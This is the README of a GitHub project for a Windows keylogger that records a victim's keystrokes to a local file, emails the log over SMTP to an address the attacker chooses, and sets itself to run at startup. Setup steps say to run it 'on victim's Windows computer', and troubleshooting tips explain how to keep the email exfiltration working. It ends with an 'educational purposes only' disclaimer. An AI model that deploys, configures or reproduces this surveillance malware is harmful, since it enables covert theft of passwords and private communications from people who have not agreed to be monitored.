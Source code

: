 # Cypher Keylogger

**DESCRIPTION:**

**Note that [L CTRL + F12] is the only way to stop the keylogger once it is running.**

This is a basic keylogger. It captures keystrokes and records them locally in a file ```keylogs.txt```.

After a certain number of keystrokes (specified by the attacker), the script will email ```keylogs.txt``` to a specified email address. Duwe to Google's security features, the sender email address cnnot be a gmail account.

Additionally, immediately after the keylogger is stopped, the script will email ```keylogs.txt``` to a specified email address.

---

**INSTRUCTIONS:**

 - [Specify recipient address](https://github.com/bmattblake/Cypher-Keylogger/blob/629c4727a6d00e80ef2203577483726575b4c367/cypher/.env#L1)
 - [Specify sender address](https://github.com/bmattblake/Cypher-Keylogger/blob/629c4727a6d00e80ef2203577483726575b4c367/cypher/.env#L1)
 - [Enter sender email address password](https://github.com/bmattblake/Cypher-Keylogger/blob/629c4727a6d00e80ef2203577483726575b4c367/cypher/.env#L2)
 - [Specify SMTP server](https://github.com/bmattblake/Cypher-Keylogger/blob/629c4727a6d00e80ef2203577483726575b4c367/cypher/settings.py#L21)
 - Run the program on victim's Windows computer
 - Press [Left CTRL + F12] to stop the keylogger

---

**FEATURES:**

- Local Storage: Stores logs in a file ```keylogs.txt```.
- Email: Sends logs to a specified email address. Note: You must specify the following:
    - Recipient email address
    - Sender email address
    - Sender email address account password
    - SMTP server
    - Port number (default is 465)
- Program will automatically run at startup after it is manually executed once

---

**TROUBLESHOOTING:**

<u>If you connection to the SMPT server is closing unexpectedly, or you get an error message stating that the username and password cobination is incorrect:</u>
- Make sure to allow less-secure (third-party) apps to login to your email address
- Ensure that the smtp server that you provided is up

If your sender email address is a gmail account, and you are getting the following error:
```
smtplib.SMTPAuthenticationError: (535, b'5.7.8 Username and Password not accepted. Learn more at\n5.7.8  https://support.google.com/mail/?p=BadCredentials k125-20020a37a183000000b005f170f7e497sm4061876qke.47 - gsmtp')
```
Google no longer supports third-party programs to automatically sign into gmail accounts. It is recommended that you use a different email service. You can find more information here: https://support.google.com/accounts/answer/6010255.

If you get the following error:
```
ssl.SSLError: [SSL: WRONG_VERSION_NUMBER] wrong version number (_ssl.c:1129)
```
You have two options:
 - Make sure that your port number is 465. Port 465 is used for implicit TLS.
 - If you do not wish to use port 465, change [this line of code](https://github.com/bmattblake/Keylogger/blob/d992c8f8be0de920a1887fe8953062fe032b82be/keylogger.py#L112) from:  
    ```server = smtplib.SMTP_SSL(SMTP_SERVER, PORT)```  
    to:  
    ```server = smtplib.SMTP(SMTP_SERVER, PORT)```

---


**DISCLAIMER:**

This keylogger was made for educational purposes only. I do not condone any use of this keylogger for malicious intent.
